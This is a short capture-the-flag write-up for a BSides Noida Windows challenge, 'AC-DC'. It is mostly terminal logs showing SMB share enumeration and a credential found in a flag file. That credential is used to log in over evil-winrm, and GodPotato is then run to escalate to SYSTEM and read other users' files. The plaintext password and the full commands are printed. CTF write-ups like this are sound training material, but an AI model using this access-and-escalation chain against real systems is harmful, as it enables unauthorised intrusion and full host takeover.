


# AC-DC

sorry i was little busy and lazy ;-; so here short explain so smb to the ip found out sharename flag download it and it lead another cre after awhile poking around i know how to use GodPotato to previledge escape and find all the users then just inspect each one to get the flag 
It was unique :> first time doing this very good ctf

```
┌──(kali㉿kali)-[~/hackorn]
└─$ cat flag.txt
Hello Participant, 
Nice to See You here ;

Your Credentitals  :

svc-flag:2<wN5cf4Zhu£mr!tP"5*,4v]

{Hint: PS Remoting can sometimes be useful for gaining an initial foothold.}  
@localh0ste
```


First inspect the web



```
──(venv)─(kali㉿kali)-[~/hackorn]
└─$ smbclient -L //13.71.126.207 -U developer
Password for [WORKGROUP\developer]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        flag            Disk      BSides Noida - Initial Foothold
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 13.71.126.207 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
                                                                                                                                                                                                                                             
┌──(venv)─(kali㉿kali)-[~/hackorn]
└─$ smbclient //13.71.126.207/sharename -U developer

Password for [WORKGROUP\developer]:
tree connect failed: NT_STATUS_BAD_NETWORK_NAME
                                                                                                                                                                                                                                             
┌──(venv)─(kali㉿kali)-[~/hackorn]
└─$ smbclient //13.71.126.207/flag -U developer

Password for [WORKGROUP\developer]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep 22 23:52:41 2025
  ..                                 DR        0  Tue Sep 23 02:00:40 2025
  flag.txt                            A      202  Mon Sep 22 23:58:17 2025

                33147379 blocks of size 4096. 28805803 blocks available
smb: \> get flag.txt
getting file \flag.txt of size 202 as flag.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \> cat flag.txt
cat: command not found
smb: \> open flag.txt
open file \flag.txt: for read/write fnum 1
smb: \> more flag.txt
getting file \flag.txt of size 202 as /tmp/smbmore.re7lDP (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)

zsh: suspended  smbclient //13.71.126.207/flag -U developer
                                                                                                                                                                                                                                             
┌──(venv)─(kali㉿kali)-[~/hackorn]
└─$ evil-winrm -i 13.71.126.207 -u svc-flag -p '2<wN5cf4Zhu£mr!tP"5*,4v]'

                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-flag\Documents> ls


    Directory: C:\Users\svc-flag\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/24/2025   8:21 PM                BH
d-----         9/24/2025  10:32 PM                BH_unpacked
-a----         9/24/2025   8:14 PM          28530 20250924201337_BloodHound.zip
-a----         9/24/2025   8:16 PM              0 20250924201621_computers.json
-a----         9/24/2025   8:16 PM         385024 20250924201621_containers.json
-a----         9/24/2025   8:16 PM              0 20250924201621_domains.json
-a----         9/24/2025   8:16 PM              0 20250924201621_gpos.json
-a----         9/24/2025   8:16 PM          77824 20250924201621_groups.json
-a----         9/24/2025   8:16 PM              0 20250924201621_ous.json
-a----         9/24/2025   8:16 PM              0 20250924201621_users.json
-a----         9/25/2025   1:45 AM          28579 20250925014415_BloodHound.zip
-a----         9/25/2025   1:49 AM              0 20250925014941_computers.json
-a----         9/25/2025   1:49 AM         385024 20250925014941_containers.json
-a----         9/25/2025   1:49 AM              0 20250925014941_domains.json
-a----         9/25/2025   1:49 AM              0 20250925014941_gpos.json
-a----         9/25/2025   1:49 AM          77824 20250925014941_groups.json
-a----         9/25/2025   1:49 AM              0 20250925014941_ous.json
-a----         9/25/2025   1:49 AM              0 20250925014941_users.json
-a----         9/25/2025   2:58 AM          57344 GodPotato-NET4.exe
-a----         9/25/2025   2:36 AM             20 help!!!
-a----         9/25/2025   1:59 AM         347648 jp.exe
-a----         9/25/2025   2:24 AM         263680 jp32.exe
-a----         9/25/2025   1:45 AM           1282 MTg2ZjVlMGItYWQ4MS00NGUyLThhMDUtOWY1YjYyNDdkMWY2.bin
-a----         9/25/2025   2:57 AM          27136 PrintSpoofer.exe
-a----         9/24/2025   8:13 PM        1308672 SharpHound.exe
-a----         9/25/2025   2:22 AM           1591 shell.bat
-a----         9/25/2025   2:32 AM          73802 shell.exe
-a----         9/25/2025   2:43 AM          73802 test.bat
-a----         9/25/2025   2:47 AM          73802 test.exe
-a----         9/25/2025   1:16 AM             15 test.txt
-a----         9/25/2025   3:01 AM              0 whoami.txt

```


```
*Evil-WinRM* PS C:\Users\svc-flag\Documents> .\GodPotato-NET4.exe -cmd "cmd /c dir C:\Users"
[*] CombaseModule: 0x140713842049024
[*] DispatchTable: 0x140713844635976
[*] UseProtseqFunction: 0x140713843929280
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\341f632d-f033-4940-bf8b-632d60642ebd\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00006402-1484-ffff-54b8-9113643b7043
[*] DCOM obj OXID: 0x702b23e164d1a9f0
[*] DCOM obj OID: 0xb94f4794bd3f793a
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 512 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 8528
 Volume in drive C is Windows
 Volume Serial Number is AC18-56DA

 Directory of C:\Users

09/25/2025  03:02 AM    <DIR>          .
09/23/2025  05:32 AM    <DIR>          BSN-F
09/23/2025  06:06 AM               145 file.txt
09/25/2025  03:02 AM    <DIR>          hacker
09/22/2025  03:22 PM    <DIR>          localh0ste
09/03/2025  11:45 AM    <DIR>          Public
09/24/2025  07:56 PM    <DIR>          svc-flag
               1 File(s)            145 bytes
               6 Dir(s)  117,989,584,896 bytes free
*Evil-WinRM* PS C:\Users\svc-flag\Documents> .\GodPotato-NET4.exe -cmd "cmd /c dir C:\Users\BSN-F\Desktop"

[*] CombaseModule: 0x140713842049024
[*] DispatchTable: 0x140713844635976
[*] UseProtseqFunction: 0x140713843929280
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\78a5bd94-a2be-4821-8008-eaf4aa57e1e7\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00004802-2024-ffff-3ff2-1974744f57a6
[*] DCOM obj OXID: 0xcda60a639b2afe2c
[*] DCOM obj OID: 0x384b1abbc8f7ecef
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 512 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 10464
 Volume in drive C is Windows
 Volume Serial Number is AC18-56DA

 Directory of C:\Users\BSN-F\Desktop

09/23/2025  05:54 AM    <DIR>          .
09/23/2025  05:32 AM    <DIR>          ..
09/23/2025  05:44 AM                69 user.txt
               1 File(s)             69 bytes
               2 Dir(s)  118,002,528,256 bytes free
*Evil-WinRM* PS C:\Users\svc-flag\Documents> 
*Evil-WinRM* PS C:\Users\svc-flag\Documents> .\GodPotato-NET4.exe -cmd "cmd /c dir C:\Users\hacker\Desktop"
[*] CombaseModule: 0x140713842049024
[*] DispatchTable: 0x140713844635976
[*] UseProtseqFunction: 0x140713843929280
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\87b34d5f-094c-44ce-abcb-6e49a77f4a9d\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00005c02-21bc-ffff-e958-73dc03d919ed
[*] DCOM obj OXID: 0x642cc83b6e39a709
[*] DCOM obj OID: 0x2d7faa1289f512c9
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 512 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3044
 Volume in drive C is Windows
 Volume Serial Number is AC18-56DA

 Directory of C:\Users\hacker\Desktop

05/08/2021  08:20 AM    <DIR>          .
09/25/2025  03:02 AM    <DIR>          ..
               0 File(s)              0 bytes
               2 Dir(s)  117,980,712,960 bytes free
*Evil-WinRM* PS C:\Users\svc-flag\Documents> .\GodPotato-NET4.exe -cmd "cmd /c dir C:\Users\localh0ste\Desktop"
[*] CombaseModule: 0x140713842049024
[*] DispatchTable: 0x140713844635976
[*] UseProtseqFunction: 0x140713843929280
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\351896f1-0ce0-47b7-9210-9efd08bb5844\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000b402-2310-ffff-70e6-3edb8f0c17aa
[*] DCOM obj OXID: 0x601d47d483d4c8ef
[*] DCOM obj OID: 0x626fe13f490e52d0
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 512 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 12828
 Volume in drive C is Windows
 Volume Serial Number is AC18-56DA

 Directory of C:\Users\localh0ste\Desktop

09/23/2025  06:00 AM    <DIR>          .
09/22/2025  03:22 PM    <DIR>          ..
09/23/2025  03:52 AM    <DIR>          flag
09/24/2025  01:46 PM               142 flag.txt
               1 File(s)            142 bytes
               3 Dir(s)  117,980,712,960 bytes free

*Evil-WinRM* PS C:\Users\svc-flag\Documents> 
*Evil-WinRM* PS C:\Users\svc-flag\Documents> .\GodPotato-NET4.exe -cmd "cmd /c dir C:\Users\localh0ste\Desktop"
[*] CombaseModule: 0x140713842049024
[*] DispatchTable: 0x140713844635976
[*] UseProtseqFunction: 0x140713843929280
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\33a706f6-3d84-49a0-92af-89983bf7e486\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00007402-19ac-ffff-3d3b-6ea9c5846687
[*] DCOM obj OXID: 0x4416b197b75abeaf
[*] DCOM obj OID: 0xdf8dcdb70a56abb6
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 512 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 12140
 Volume in drive C is Windows
 Volume Serial Number is AC18-56DA

 Directory of C:\Users\localh0ste\Desktop

09/23/2025  06:00 AM    <DIR>          .
09/22/2025  03:22 PM    <DIR>          ..
09/23/2025  03:52 AM    <DIR>          flag
09/24/2025  01:46 PM               142 flag.txt
               1 File(s)            142 bytes
               3 Dir(s)  117,980,712,960 bytes free
*Evil-WinRM* PS C:\Users\svc-flag\Documents> .\GodPotato-NET4.exe -cmd "type C:\Users\localh0ste\Desktop\flag.txt"
[*] CombaseModule: 0x140713842049024
[*] DispatchTable: 0x140713844635976
[*] UseProtseqFunction: 0x140713843929280
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\7b101500-da54-4393-8635-8cf0253cdf3e\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000fc02-0160-ffff-ad5c-456f390d2783
[*] DCOM obj OXID: 0x47238e201915e849
[*] DCOM obj OID: 0x77f83cf8bd1c5f50
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 512 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[!] Cannot create process Win32Error:2
*Evil-WinRM* PS C:\Users\svc-flag\Documents> .\GodPotato-NET4.exe -cmd "cmd /c type C:\Users\localh0ste\Desktop\flag.txt"
[*] CombaseModule: 0x140713842049024
[*] DispatchTable: 0x140713844635976
[*] UseProtseqFunction: 0x140713843929280
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\c72c8528-76f2-4b88-8755-3cfb2860e7a3\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000b002-094c-ffff-0e31-034511ebd565
[*] DCOM obj OXID: 0x9345c1201b9f2f93
[*] DCOM obj OID: 0xb6cfc4072e6d23a8
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 512 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 9988
SPL{2a53db3573d28d0f13790be5a112cdeee4ee87064cd03c8a3ad8e2606d15464651556448888}

----
Congratulations Buddy !

Follow Me : localh0ste.me
```

thanks somebody left the GodPotato here it was easy to use



